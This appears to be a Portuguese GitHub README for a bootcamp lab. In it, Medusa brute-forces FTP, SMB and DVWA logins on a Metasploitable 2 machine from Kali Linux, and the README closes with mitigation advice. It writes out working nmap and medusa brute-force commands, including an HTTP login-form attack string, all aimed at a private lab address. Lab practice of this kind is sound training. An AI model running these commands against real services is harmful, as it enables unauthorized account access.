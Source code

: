 # 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição

Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos

- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba & VSFTPD** - Serviços de rede

## ⚡ Comandos Principais

```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

# Brute force HTTP (DVWA)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER&password=^PASS&login=Login' -m FAIL:'Login failed'

📊 Resultados
✅ Credenciais fracas identificadas com sucesso

✅ Serviços vulneráveis expostos

✅ Demonstração da eficácia de ataques de força bruta

✅ Acesso obtido em serviços FTP e SMB

✅ Enumeração de shares Samba bem-sucedida

🛡️ Medidas de Mitigação
🔒 Implementar políticas de senha forte

⚠️ Configurar bloqueio de conta após tentativas falhas

🔐 Utilizar autenticação multifator (MFA)

📊 Monitorar logs de acesso

🌐 Restringir acesso por rede (firewall)

🔄 Atualizar serviços para versões sem vulnerabilidades

🚫 Desativar serviços desnecessários
